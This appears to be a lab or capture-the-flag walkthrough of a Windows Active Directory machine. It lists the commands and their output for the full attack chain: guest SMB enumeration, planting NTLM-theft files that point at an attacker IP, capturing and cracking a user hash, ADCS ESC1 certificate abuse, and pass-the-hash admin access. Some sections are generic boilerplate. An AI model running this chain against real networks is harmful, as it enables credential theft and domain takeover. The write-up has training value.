

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows (Server 2022) |
| Difficulty                | Hard |
| Attack Surface            | SMB (Guest R/W share), Active Directory Certificate Services (ADCS) |
| Primary Entry Vector      | Guest SMB write -> SCF file placement -> NTLMv2 hash capture -> crack |
| Privilege Escalation Path | ADCS ESC1 (NaraUser template) -> Administrator certificate -> Pass-the-Hash |

## Credentials

```text
Tracy.White         zqwj041FGX              (NTLMv2 crack)
Administrator       d35c4ae45bdd10a4e28ff529a2155745  (NT hash via ADCS ESC1)
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.30:53
Open 192.168.198.30:88
Open 192.168.198.30:135
Open 192.168.198.30:389
Open 192.168.198.30:445
Open 192.168.198.30:636
Open 192.168.198.30:3389
Open 192.168.198.30:5985
Open 192.168.198.30:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
445/tcp   open  microsoft-ds?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

LDAP and RPC denied anonymous access. However, SMB Guest login revealed a writable `nara` share:

```bash
smbclient -L //$ip -N
```

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nara            Disk      company share
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

RID brute-force with Guest credentials enumerated domain users:

```bash
netexec smb $ip -u 'guest' -p '' --rid-brute
```

```bash
1104: NARASEC\Amelia.O'Brien (SidTypeUser)
1105: NARASEC\Damian.Johnson (SidTypeUser)
1106: NARASEC\Helen.Robinson (SidTypeUser)
1107: NARASEC\Sara.O'Sullivan (SidTypeUser)
1108: NARASEC\Jasmine.Roberts (SidTypeUser)
1109: NARASEC\Declan.Reynolds (SidTypeUser)
1110: NARASEC\Jodie.Summers (SidTypeUser)
1111: NARASEC\Carolyn.Hill (SidTypeUser)
1112: NARASEC\Jemma.Humphries (SidTypeUser)
1113: NARASEC\Tracy.White (SidTypeUser)
1115: NARASEC\Remote Access (SidTypeGroup)
1116: NARASEC\Enrollment (SidTypeGroup)
```

The presence of an `Enrollment` group hinted at ADCS certificate template misconfiguration.

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

The `nara` share was writable with Guest access. NTLM theft files (SCF, LNK, URL, desktop.ini) were generated and placed in the share:

```bash
python3 ~/tools/ntlm_theft/ntlm_theft.py -g all -s 192.168.45.166 -f test.lnk
```

```bash
Created: test.lnk/test.lnk.scf (BROWSE TO FOLDER)
Created: test.lnk/test.lnk.lnk (BROWSE TO FOLDER)
Created: test.lnk/desktop.ini (BROWSE TO FOLDER)
...
```

Files were uploaded to the share via smbclient:

```bash
smbclient //$ip/nara -U 'nara%nara'
smb: \> put ./test.lnk.lnk
smb: \> cd Documents\
smb: \Documents\> put ./test.lnk.lnk
```

Responder captured an NTLMv2 hash when a user browsed the folder:

```bash
sudo responder -I tun0 -v
```

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.30
[SMB] NTLMv2-SSP Username : NARASEC\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::NARASEC:badae4837aadc363:4265C7DB2CBFEE96FF1ECAA07E3745F0:0101000000000000...
```

John cracked the hash:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
zqwj041FGX       (Tracy.White)
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
Certipy was used to enumerate vulnerable ADCS templates. The `NaraUser` template had ESC1 — `EnrolleeSuppliesSubject` enabled with Client Authentication, and Domain Users could enroll:

```bash
certipy-ad find -u Tracy.White@nara-security.com -p 'zqwj041FGX' \
  -dc-ip $ip -vulnerable -stdout
```

```bash
[!] Vulnerabilities
    ESC1: Enrollee supplies subject and template allows client authentication.
```

A certificate was requested impersonating Administrator:

```bash
certipy-ad req -u 'Tracy.White'@nara-security.com -p 'zqwj041FGX' -dc-ip $ip \
  -ca 'NARA-CA' -template 'NaraUser' \
  -upn 'administrator@nara-security.com'
```

```bash
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@nara-security.com'
[*] Saving certificate and private key to 'administrator.pfx'
```

Authentication with the certificate yielded the Administrator NT hash:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $ip
```

```bash
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Got hash for 'administrator@nara-security.com': aad3b435b51404eeaad3b435b51404ee:d35c4ae45bdd10a4e28ff529a2155745
```

WinRM access as Administrator:

```bash
evil-winrm -i $ip -u administrator -H d35c4ae45bdd10a4e28ff529a2155745
```

```bash
*Evil-WinRM* PS C:\Users\tracy.white\desktop> type local.txt
8baa411da21b57e1ca9193cf735f1dbe
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> type proof.txt
9fa5a2fb95cbc0e0387f758c0a74dfbc
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Guest-writable SMB shares are extremely dangerous — SCF/LNK/URL files trigger automatic NTLM authentication when browsed.
- ADCS ESC1 (`EnrolleeSuppliesSubject` + Client Authentication + Domain Users can enroll) allows any domain user to impersonate Administrator.
- The presence of an `Enrollment` group in RID enumeration is a strong indicator of ADCS template misconfiguration in lab environments.
- Always check for ADCS vulnerabilities with `certipy-ad find -vulnerable` after obtaining any domain credentials.
- If PKINIT fails (`KDC_ERR_PADATA_TYPE_NOSUPP`), fall back to PassTheCert via Schannel LDAPS authentication.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- ntlm_theft: https://github.com/Greenwolf/ntlm_theft
- Responder: https://github.com/lgandx/Responder
- Certipy: https://github.com/ly4k/Certipy
- ADCS ESC1: https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
